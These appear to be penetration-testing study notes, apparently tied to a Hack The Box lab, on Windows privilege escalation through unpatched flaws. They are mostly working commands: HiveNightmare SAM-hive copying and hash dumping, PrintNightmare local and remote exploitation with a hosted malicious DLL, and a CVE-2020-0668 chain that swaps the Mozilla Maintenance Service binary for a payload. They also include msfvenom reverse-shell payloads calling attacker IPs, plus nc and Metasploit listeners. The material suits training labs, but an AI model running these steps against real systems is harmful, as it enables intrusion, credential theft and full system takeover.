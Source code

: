Over the years, there have been many kernel exploits that affect the Windows operating system from Windows 2000/XP up to Windows 10/Server 2016/2019. Below can be found a detailed table of known remote code execution/local privilege escalation exploits for Windows operating systems, broken down by service pack level, from Windows XP onward to Server 2016.

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/abatchy17/WindowsExploits

### Enumerating Missing Patches
```powershell
PS C:\htb> systeminfo
PS C:\htb> wmic qfe list brief
PS C:\htb> Get-Hotfix
```

### Metasploit Exploit Suggester
```bash
run post/multi/recon/local_exploit_suggester
```

```bash
background
exploit/windows/local/ms10_015_kitrap0d
set session 1 
set lhost tun0
set lport 5555 		(something different from last session)
exploit
```
#### Notable Exploits
- `MS08-067`
- `MS17-010` - [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)
- `ALPC Task Scheduler 0-Day`
- `CVE-2021-36934 HiveNightmare, aka SeriousSam`


### HiveNightmare (Windows 10)
```powershell
C:\htb> icacls c:\Windows\System32\config\SAM

C:\Windows\System32\config\SAM BUILTIN\Administrators:(I)(F)
      NT AUTHORITY\SYSTEM:(I)(F)
      BUILTIN\Users:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
      APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files
```

Successful exploitation also requires the presence of one or more shadow copies. Most Windows 10 systems will have `System Protection` enabled by default which will create periodic backups, including the shadow copy necessary to leverage this flaw.

This [PoC](https://github.com/GossiTheDog/HiveNightmare) can be used to perform the attack, creating copies of the aforementioned registry hives:
```powershell
.\HiveNightmare.exe
```

Dump hashes
```powershell
impacket-secretsdump -sam SAM-2021-08-07 -system SYSTEM-2021-08-07 -security SECURITY-2021-08-07 local
```

### PrintNightmare
Local exploitation with [Invoke-Nightmare](https://github.com/cube0x0/CVE-2021-1675) 
```powershell
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

Remote exploitation
Check if machine is vulnerable
```powershell
rpcdump.py @192.168.1.129 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol
```

Generate malicious DLL, host it
```powershell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4443 -f dll > shell.dll

smbserver.py share `pwd` -smb2support

nc -lnvp 1337
```

Download and run [this script](https://github.com/cube0x0/CVE-2021-1675).
```bash
python3 CVE-2021-1675.py driver/tony:liltony@10.10.11.106 '\\10.10.14.18\share\shell.dll'
```

### CVE-2020-0668
[Microsoft CVE-2020-0668: Windows Kernel Elevation of Privilege Vulnerability](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/) exploits an arbitrary file move vulnerability leveraging the Windows Service Tracing

Check privileges
```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

We can use [this](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668) exploit for CVE-2020-0668, download it, and open it in Visual Studio within a VM. Building the solution should create the following files.

```shell
CVE-2020-0668.exe
CVE-2020-0668.exe.config
CVE-2020-0668.pdb
NtApiDotNet.dll
NtApiDotNet.xml
```

At this point, we can use the exploit to create a file of our choosing in a protected folder such as C:\Windows\System32. We aren't able to overwrite any protected Windows files. This privileged file write needs to be chained with another vulnerability, such as [UsoDllLoader](https://github.com/itm4n/UsoDllLoader) or [DiagHub](https://github.com/xct/diaghub) to load the DLL and escalate our privileges. However, the UsoDllLoader technique may not work if Windows Updates are pending or currently being installed, and the DiagHub service may not be available.

We can also look for any third-party software, which can be leveraged, such as the Mozilla Maintenance Service. This service runs in the context of SYSTEM and is startable by unprivileged users. The (non-system protected) binary for this service is located below.

- `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Checking Permissions on Binary
```powershell
icacls "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Generate malicious binary
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.3 LPORT=8443 -f exe > maintenanceservice.exe
```

Download two copies of payload
Run exploit
```powershell
C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-student\Desktop\maintenanceservice.exe "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Replace File with Malicious Binary **NUMBER  2**
```powershell
 copy /Y C:\Users\htb-student\Desktop\maintenanceservice2.exe "c:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"
```

Start listener
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST 10.10.15.155; set LPORT 4443; set payload windows/x64/meterpreter/reverse_https; run'
```

Start service
```powershell
net start MozillaMaintenance 
```